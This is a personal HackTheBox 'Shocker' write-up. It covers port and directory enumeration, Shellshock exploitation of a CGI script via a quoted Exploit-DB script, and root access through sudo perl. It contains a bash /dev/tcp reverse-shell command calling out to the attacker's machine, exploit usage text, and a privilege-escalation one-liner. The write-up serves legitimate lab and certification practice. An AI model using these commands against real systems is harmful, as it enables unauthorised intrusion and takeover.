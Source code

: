 ```yaml
---
title: "HTB: Shocker Write-up"
date: 2021-05-03 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - linux
  - web
---
```


As promised, here is the first of the HackTheBox write-ups that I am going to be putting out weekly. For the first write-up I picked the first Linux box from TJNull's excellent [list of OSCP-like HackTheBox machines][htb-list] (that I hadn't already pwned).

## Phase 1: Enumeration

As with any boot2root, the first step is kicking off some external port scans to see whats up and kicking. I recently discovered [AutoRecon][autorecon] by Tib3ruis, and I have since made it a staple of my boot2root arsenal. It's great at automating all the low-level stuff that you would be doing by hand, and it can usually find the low-hanging fruit pretty fast.

```bash
autorecon -o shocker --single-target 10.10.10.56  
```

From the `nmap` output we can see that there is a web-server on port 80, and SSH on port 2222.

```
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
```

SSH on 2222 is a little odd, but I'm going to chalk this up to just avoiding top-10 port scans. The web server seems like the juicy target here, but I'm going to just do a quick check to make sure that the SSH service isn't using any [bad keys][bad-keys].

```bash
cd ~/tools/ssh-badkeys
grep -R "AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREG" .
```

Nadha, worth a shot. Now that I know the SSH is secure, it's time to poke at the web-server. The first step to any web-server enumeration is always to perform directory enumeration, which `autorecon` has handily done for us. Time to check the GoBuster output.

```
/.htaccess.aspx       (Status: 403) [Size: 300]
/.htpasswd.aspx       (Status: 403) [Size: 300]
/.htaccess.jsp        (Status: 403) [Size: 299]
/.htpasswd.jsp        (Status: 403) [Size: 299]
/.htaccess.txt        (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd.txt        (Status: 403) [Size: 299]
/.htaccess.html       (Status: 403) [Size: 300]
/.htpasswd.html       (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 299]
/.htaccess.asp        (Status: 403) [Size: 299]
/.htpasswd.php        (Status: 403) [Size: 299]
/.htpasswd.asp        (Status: 403) [Size: 299]
/cgi-bin/             (Status: 403) [Size: 294]
/cgi-bin/.html        (Status: 403) [Size: 299]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 299]
```

Hmmm, not a lot there. I'm going to kick off another scan with a bigger wordlist just in case something was missed. This time I'm going to use `ffuf` because its speed is unrivaled and I am more familiar with its flags.

```bash
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-large.csv
```

While that was running, I went to check the other `autorecon` scan output. This is where I ended up getting stuck for some time because I didn't properly enumerate the "cgi-bin" directory. I went diving down other rabbit holes, and eventually had to look up a hint. I was close in my enumeration attempts, but I just used the `CGIs.txt` file as my wordlist from the web root (which didn't have the endpoint I needed).

**Wrong Command (That I Ran)**

```bash
ffuf -u http://10.10.10.56/FUZZ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -of csv -o ./raft-cgis-ext.csv -e .cgi,.php,.py,.sh
```

What I should have done was to scan the "cgi-bin" directory using a wordlist like `raft-large-directories.txt` with the correct cgi extensions.

**Right Command (That I Should Have Run)**

```bash
ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -of csv -o ./raft-cgi-bin-ext.csv -e .cgi,.php,.py,.sh
```

That command will give us the vulnerable endpoint.

```
user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
```

This can stand as a valuable learning lesson for the future. Always, always, always properly enumerate directories - even if the root gives you a 403. Each directory should always be put through some directory enumeration tool, such as `ffuf`.

## Phase 2: Exploitation

From here, I kind of cheated a little. I used some intuition by looking at the name of the Box and the location of *the only endpoint we found* and assumed that the box was vulnerable to ShellShock. So, I looked up some shellshock exploits using `searchsploit` and found a few candidates. There were `metasploit` modules for this exploit, but I didn't want to use `metasploit` so I looked for standalone exploits.

```bash
$ searchsploit shellshock
...
Apache mod_cgi - 'Shellshock' Remote Command Injection | linux/remote/34900.py
```

Let's go ahead and pull that one down and inspect it.

```bash
ssp -m linux/remote/34900.py
mv 34900.py shellshock.py
less shellshock.py
```

**linux/remote/34900.py**

```python
#! /usr/bin/env python
from socket import *
from threading import Thread
import thread, time, httplib, urllib, sys 

stop = False
proxyhost = ""
proxyport = 0

def usage():
 print """

  Shellshock apache mod_cgi remote exploit

Usage:
./exploit.py var=<value>

Vars:
rhost: victim host
rport: victim port for TCP shell binding
lhost: attacker host for TCP shell reversing
lport: attacker port for TCP shell reversing
pages:  specific cgi vulnerable pages (separated by comma)
proxy: host:port proxy

Payloads:
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)

Example:

./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234
./exploit.py payload=bind rhost=1.2.3.4 rport=1234

Credits:

Federico Galatolo 2014
"""
...
```

Okay, seems straightforward enough. It will handle creating the listener, so all thats left to do is run it.

```bash
$ ./shellshock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.10 lport=8000 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly
```

Rock on! We have a shell on the target. Next up is to make this shell into something a little more serviceable. I didn't like the way I was encapsulated in a python script, so I made a new reverse shell connection using `bash` and `nc`.

**Victim**

```bash
bash -i >& /dev/tcp/10.10.14.10/1234 0>&1
```

**Kali**

```bash
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 58284
bash: no job control in this shell
shelly@Shocker:/tmp$ 
```

Next step was to upgrade the shell.

```bash
shelly@Shocker:/tmp$ python3 -c "__import__('pty').spawn('/bin/bash')"
```

Once I have a TTY, I followed [this guide][tty-shell] for getting a proper TTY shell over `nc`.

## Phase 3: Privilege Escalation

My go-to linux privilege escalation script is the fantastic [linpeas.sh][linpeas] by carlospolop. I used `wget` to get it onto our victim machine, then let it run. Something immediately caught my eye while the output was scrolling past.

```
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Our user can run `perl` with `sudo`! I know that `perl` can be used to escalate privileges to root, so I went to check [GTFObins][gtfobins] for an easy one-liner to do just that. Sure enough, [GTFObins] provided me with the following command.

```bash
shelly@Shocker:/tmp$ sudo perl -e 'exec "/bin/bash"'
root@Shocker:/tmp# whoami
root
```

Thanks for reading my write-up of Shocker. I plan on doing plenty more of these as I inch closer to my OSCP exam attempt, so if you liked it there will be more soon.

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[gtfobins]: https://gtfobins.github.io/
